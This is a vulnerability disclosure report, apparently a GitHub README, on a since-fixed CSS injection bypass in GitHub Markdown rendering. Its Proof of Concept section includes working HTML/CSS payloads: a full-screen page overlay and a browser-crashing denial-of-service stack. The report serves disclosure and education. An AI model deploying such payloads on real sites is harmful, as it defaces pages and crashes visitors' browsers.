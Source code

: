 # 2023/10 Github markdown vulnerability

### Executive Summary
- **Date of Discovery:** October 8, 2023
- **Date of Initial Report:** October 10, 2023
- **Date of Resolution:** October 15, 2023
- **Identified By:** ([Bytexenon](https://github.com/Bytexenon))
- **Classification of Vulnerability:** CSS Injection 
- **Services Impacted:** Github (https://github.com/), Github-Flavored Markdown (https://github.github.com/gfm/)
- **Extent of Impact:** The vulnerability has a broad reach, affecting multiple URL patterns on GitHub. This includes user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. The specific patterns that are impacted include:
  - `https://github.com/<user,organization>` (If a malicious `README.md` exists in the user or organization's repository)
  - `https://github.com/<user,organization>/<repository>` (If the repository has a malicious `README.md` file)
  - `https://github.com/<user,organization>/<repository>/issues/<issue>`
  - `https://github.com/<user,organization>/<repository>/**.md` (Any `.md` file in any directory)
  - `https://github.com/<user,organization>/<repository>/**` (If the directory has a malicious `README.md` file)
  - Additional patterns may be affected, but these are the ones that have been tested so far. Essentially, any URL that renders a user-entered Markdown file was vulnerable.
- **Method of Discovery:** Manual Testing
- **Severity Level:** Low to Medium. The exploit does not enable arbitrary code execution, data theft, or redirection to malicious sites. However, it does allow an attacker to replace an attacker-controlled page (their own Github profile, any of their issues, etc.) with a full-screen image with any CSS styling, or to create a series of images that could crash the browser.
- **Current Status:** Resolved.

### Description

Github's markdown parser, known as cmark, allows for the use of HTML tags to enhance the formatting of the markdown. However, for security reasons, it restricts the use of certain attributes such as style and script to prevent potential Cross-Site Scripting (XSS) and CSS Injection attacks. Despite these restrictions, I discovered a bypass that allows the style attribute to be used within an `<img>` element, but only when this element is nested inside any header (`<h1>`, `<h2>`, `<h3>`, `<h4>`, `<h5>`, `<h6>`) element. This bypass can be exploited to apply arbitrary CSS styles to the image, potentially leading to various forms of visual manipulation on the rendered page.

### Discovery

While experimenting with Github's markdown parser to enhance the aesthetics of my profile's README.md file, I discovered that HTML tags were permissible in their markdown. This is a common feature in most markdown parsers to allow for more complex formatting. However, what caught my attention was the ability to use the style attribute within nested `<img>` elements that were inside any header elements. This was an unexpected behavior as the style attribute is typically restricted to prevent potential XSS/CSS-Injection attacks.

To validate this finding, I created a simple HTML page with a nested `<img>` element inside a header element and applied a style attribute to it. I then uploaded this HTML content to my Github profile's README.md file. To my surprise, the style attribute was successfully rendered, allowing me to apply arbitrary CSS styles to the image.

Intrigued by this discovery, I decided to test this behavior on other Github pages. I found that this bypass was not limited to the README.md file of my profile but was applicable on any Github page that rendered a user-entered Markdown file. This included user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. This discovery indicated a widespread impact of this vulnerability, affecting multiple URL patterns on GitHub.

### Proof of Concept

**Replace any page with Github's full-screen favicon:**
```html
<h1>
  <img style="position:fixed;left:0%;top:0%;opacity:100%;z-index:999;width:100%;height:100%;background-image:url(https://github.com/favicon.ico);">
</h1>
```

**DoS attack against any browser that renders the page:**
```html
<h1>
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
</h1>
```
(Could be repeated indefinitely to make it more effective)

### Resolution

The GitHub security team demonstrated exceptional responsiveness and efficiency in addressing the reported vulnerability. Within a week of the initial report, they successfully resolved the issue, reflecting their commitment to maintaining a secure platform. Their cooperation and assistance throughout the process were commendable.

**Screenshots of the partial conversation:**

[My initial report](images/image-1.png)

[Github's response 1](images/image-2.png)

[Github's resolution response](images/image-3.png)

The name of the security engineer has been redacted for privacy reasons.

### Archived pages of the vulnerability

[My profile](https://web.archive.org/web/20231009182556/https://github.com/ByteXenon)

This page was archived after the vulnerability was reported, but before it was resolved. It shows the exploit in action. My profile page has since been updated to remove the exploit, and the exploit was never used for malicious purposes as far as I know (which is really fortunate, because it would have been very easy to do so)

### Closing Thoughts

In retrospect, while I was aware of conventional vulnerability-reporting platforms such as HackerOne, I was not aware at the time that GitHub utilized this platform for their bug bounty program. My primary goal was to ensure the vulnerability was reported as quickly as possible, and as such, I used the most immediate channel available to me, which was GitHub's support form.

Despite this initial misstep, the experience was highly educational. The responsiveness and helpfulness of GitHub's team were commendable. Their handling of the vulnerability report serves as an excellent example for others. I look forward to potentially uncovering more vulnerabilities in their service and reporting them through the appropriate channels. Thank you for taking the time to read this report. Have a great day!
